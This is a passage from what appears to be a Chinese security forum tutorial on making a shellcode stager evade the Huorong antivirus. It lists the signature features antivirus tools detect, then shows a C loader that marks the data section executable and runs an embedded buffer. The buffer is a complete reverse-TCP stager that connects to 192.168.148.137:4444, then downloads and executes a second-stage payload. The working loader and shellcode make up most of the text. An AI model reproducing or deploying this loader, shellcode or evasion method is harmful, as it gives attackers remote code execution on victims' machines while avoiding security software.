 对于stager的免杀，绕过上文我们提到的一些点即可

\- 1、里面使用apicall，存在大量特征码（WSAStartup、VirtualAlloc、recv等函数的特征码）  
\- 2、特征码计算的汇编代码，本身也是一个特征  
\- 3、动态寻找函数绝对地址的过程代码，即从fs找到函数地址的过程。  
\- 4、apicall的形式特征，stager里面调用apicall的方法是通过将apicall的地址存在到一个寄存器中，通过push 参数以及特征码然后配合call 寄存器来运行的。  
\- 5、对于结构体的处理是借助堆栈来串联（这里可能笔者表达不是很准确，就是stager为了减小其本身的大小，就会对一些资源或操作进行特殊化处理，这会使stager和正常开发出来的程序其反编译出来的汇编代码，大相径庭，对于结构体的处理只是笔者列举的一方面）

正常杀软的检测手段不可能把上述的每个点都作为检出的充要条件，因为那样误报率就太高了。

这里我们拿火绒举例子来看下，实现对火绒的免杀：

#### （stager免杀测试 （火绒）

##### 第一步

1、首先我们测试下没有shellcode的情况下，这么一个shellcode加载器能被查杀不：如下图没有被杀，没啥问题（至少data段有执行权限没有被作为唯一特征查杀，但有可能是一个必要条件，这里我们先不去考虑）

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-e58d52dbc89acab6bb188efeead879ea6680fa2a.png)

##### 第二步

2、加入shellcode测试：

```php
#pragma comment(linker, "/section:.data,RWE")  

unsigned char buf\[\] =  
"\\xfc\\xe8\\x8f\\x00\\x00\\x00\\x60\\x31\\xd2\\x89\\xe5\\x64\\x8b\\x52\\x30"  
"\\x8b\\x52\\x0c\\x8b\\x52\\x14\\x8b\\x72\\x28\\x31\\xff\\x0f\\xb7\\x4a\\x26"  
"\\x31\\xc0\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\xc1\\xcf\\x0d\\x01\\xc7\\x49"  
"\\x75\\xef\\x52\\x57\\x8b\\x52\\x10\\x8b\\x42\\x3c\\x01\\xd0\\x8b\\x40\\x78"  
"\\x85\\xc0\\x74\\x4c\\x01\\xd0\\x8b\\x48\\x18\\x8b\\x58\\x20\\x01\\xd3\\x50"  
"\\x85\\xc9\\x74\\x3c\\x31\\xff\\x49\\x8b\\x34\\x8b\\x01\\xd6\\x31\\xc0\\xc1"  
"\\xcf\\x0d\\xac\\x01\\xc7\\x38\\xe0\\x75\\xf4\\x03\\x7d\\xf8\\x3b\\x7d\\x24"  
"\\x75\\xe0\\x58\\x8b\\x58\\x24\\x01\\xd3\\x66\\x8b\\x0c\\x4b\\x8b\\x58\\x1c"  
"\\x01\\xd3\\x8b\\x04\\x8b\\x01\\xd0\\x89\\x44\\x24\\x24\\x5b\\x5b\\x61\\x59"  
"\\x5a\\x51\\xff\\xe0\\x58\\x5f\\x5a\\x8b\\x12\\xe9\\x80\\xff\\xff\\xff\\x5d"  
"\\x68\\x33\\x32\\x00\\x00\\x68\\x77\\x73\\x32\\x5f\\x54\\x68\\x4c\\x77\\x26"  
"\\x07\\x89\\xe8\\xff\\xd0\\xb8\\x90\\x01\\x00\\x00\\x29\\xc4\\x54\\x50\\x68"  
"\\x29\\x80\\x6b\\x00\\xff\\xd5\\x6a\\x0a\\x68\\xc0\\xa8\\x94\\x89\\x68\\x02"  
"\\x00\\x11\\x5c\\x89\\xe6\\x50\\x50\\x50\\x50\\x40\\x50\\x40\\x50\\x68\\xea"  
"\\x0f\\xdf\\xe0\\xff\\xd5\\x97\\x6a\\x10\\x56\\x57\\x68\\x99\\xa5\\x74\\x61"  
"\\xff\\xd5\\x85\\xc0\\x74\\x0a\\xff\\x4e\\x08\\x75\\xec\\xe8\\x67\\x00\\x00"  
"\\x00\\x6a\\x00\\x6a\\x04\\x56\\x57\\x68\\x02\\xd9\\xc8\\x5f\\xff\\xd5\\x83"  
"\\xf8\\x00\\x7e\\x36\\x8b\\x36\\x6a\\x40\\x68\\x00\\x10\\x00\\x00\\x56\\x6a"  
"\\x00\\x68\\x58\\xa4\\x53\\xe5\\xff\\xd5\\x93\\x53\\x6a\\x00\\x56\\x53\\x57"  
"\\x68\\x02\\xd9\\xc8\\x5f\\xff\\xd5\\x83\\xf8\\x00\\x7d\\x28\\x58\\x68\\x00"  
"\\x40\\x00\\x00\\x6a\\x00\\x50\\x68\\x0b\\x2f\\x0f\\x30\\xff\\xd5\\x57\\x68"  
"\\x75\\x6e\\x4d\\x61\\xff\\xd5\\x5e\\x5e\\xff\\x0c\\x24\\x0f\\x85\\x70\\xff"  
"\\xff\\xff\\xe9\\x9b\\xff\\xff\\xff\\x01\\xc3\\x29\\xc6\\x75\\xc1\\xc3\\xbb"  
"\\xf0\\xb5\\xa2\\x56\\x6a\\x00\\x53\\xff\\xd5";  

int main() {  
    \_asm {  
        lea eax,buf  
        call eax  
    }  
    return 0;  
}
```
